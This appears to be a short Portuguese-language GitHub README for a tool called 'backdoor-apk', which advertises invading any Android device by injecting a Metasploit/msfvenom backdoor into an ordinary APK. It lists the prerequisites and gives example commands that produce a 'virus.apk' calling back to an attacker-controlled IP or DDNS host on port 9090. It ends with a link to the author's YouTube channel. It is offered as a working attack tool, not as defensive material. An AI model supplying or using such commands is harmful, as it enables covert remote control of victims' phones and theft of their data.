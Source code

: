 # backdoor-apk
Invada qualquer Android usando um APK!

Necessário o Perl, MSF(console e venom), um APK(qualquer) e porta aberta, é claro..

Para adcionar o Backdoor ao APK use por exemplo:

IP:

./backdoor-apk test.apk 192.168.1.143 9090 virus.apk

Host/DDNS:

./backdoor-apk test.apk fuckthisn0ip.ddns.net 9090 virus.apk

Meu canal no YT: https://www.youtube.com/channel/UC_0YeOjcY-d_Tq0Kvcf4CKg
